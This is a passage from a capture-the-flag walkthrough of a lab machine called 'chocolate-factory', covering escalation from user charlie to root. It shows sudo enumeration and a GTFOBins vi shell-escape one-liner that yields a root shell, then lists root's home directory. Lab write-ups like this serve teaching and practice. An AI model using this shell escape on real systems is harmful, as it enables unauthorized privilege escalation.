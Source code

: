 

#### 8. Escalation from charlie to root

Firstly, I check what commands can charlie exeecute as root:

```
harlie@chocolate-factory:/$ whoami
charlie

charlie@chocolate-factory:/$ id
uid=1000(charlie) gid=1000(charley) groups=1000(charley),0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

charlie@chocolate-factory:/$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
charlie@chocolate-factory:/$ 
```

There are two ways to become root: using vim - easy way or lxd containers - harder way. I am lazy so choose vim method.

According to GTFO bins:

`sudo -u root /usr/bin/vi -c ':!/bin/sh' /dev/null`

I succeed and bingo:

```
# whoami
root
```

There are many files in root's home including python script root.py:

```
# cd /root

# ls -al
total 40
drwx------  6 root    root    4096 Oct  7 16:21 .
drwxr-xr-x 24 root    root    4096 Sep  1 17:10 ..
-rw-------  1 root    root       0 Oct  7 16:21 .bash_history
-rw-r--r--  1 root    root    3106 Apr  9  2018 .bashrc
drwx------  3 root    root    4096 Oct  1 12:07 .cache
drwx------  3 root    root    4096 Sep 30 17:01 .gnupg
drwxr-xr-x  3 root    root    4096 Sep 29 11:28 .local
-rw-r--r--  1 root    root     148 Aug 17  2015 .profile
-rwxr-xr-x  1 charlie charley  491 Oct  1 11:45 root.py
-rw-r--r--  1 root    root      66 Sep 30 10:03 .selected_editor
drwx------  2 root    root    4096 Sep  1 17:17 .ssh
```
